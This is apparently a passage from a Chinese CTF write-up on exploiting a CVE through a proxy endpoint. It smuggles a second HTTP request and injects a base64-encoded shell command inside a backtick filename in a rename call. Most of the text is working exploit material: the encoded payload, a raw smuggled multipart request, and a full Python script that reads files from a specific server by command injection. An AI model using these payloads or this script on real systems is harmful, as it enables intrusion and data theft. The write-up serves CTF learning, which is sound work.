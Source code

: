利用CVE构造命令注入Payload，发包改名。

```
`echo "Y2F0IC9mbGFnID4gZmxhZw==" | base64 -d | bash`.crt
```

第一个包利用`/`绕过`RawPath`，`Connection: keep-alive`,保持一个`http`持续连接，然后第二个数据包实现改名

第三个包是构造python中固定的包。

```
------WebKitFormBoundary5FhbXcy21j5NxtoY
Content-Disposition: form-data; name="uri"

/ HTTP/1.1
Host: admin
Connection: keep-alive

GET /admin%2frename?oldname=62a5726a-352a-4538-b236-1972b59ccf1e.crt&newname=`ech%6f "Y2F0IC9%6dbGF%6eID4g%5a%6dxh%5aw%3d%3d" %7c base64 %2dd %7c bash`%2ecrt HTTP/1.1
Host: admin
Connection: close

GET /
------WebKitFormBoundary5FhbXcy21j5NxtoY--
```

3.访问createlink接口，触发命令注入，将flag写入`static/crt/flag`

4.最后访问

我后面写了一个脚本来跑：

```python
import urllib.parse

import requests
import re
import base64
url = "http://1.14.71.254:28448/"
link = requests.get(url+"getcrt").text
old = re.findall(r"static/crt/(.*)", link)[0]
print("oldname is:"+old)
# base64.b64encode需要处理的是一个字节对象，所以需要将字符串通过encode方法转换为字节对象
cmd = base64.b64encode('cat /* >flag.txt'.encode()).decode()
print("cmd is :"+cmd)
payload = f"`echo {cmd} | base64 -d |bash`.crt"
# urllib.parse.quote是处理一些特殊字符
payload=urllib.parse.quote(payload)
print(payload)

payload1={
       "uri":f"/%61%64%6d%69%6e/%72%65%6e%61%6d%65?oldname={old}&newname={payload} HTTP/1.1\r\n"
       "Host: admin\r\n"
       "User-Agent: Guest\r\n"
       "Accept-Encoding: gzip, deflate\r\n"
       "Accept-Language: zh-CN,zh;q=0.9\r\n"
       "Connection: close\r\n\r\n"
}
requests.get(url+"proxy",data=payload1)
result=requests.get(url+"createlink").text
print(result)
print(requests.get(url+"static/crt/flag.txt").text)


```
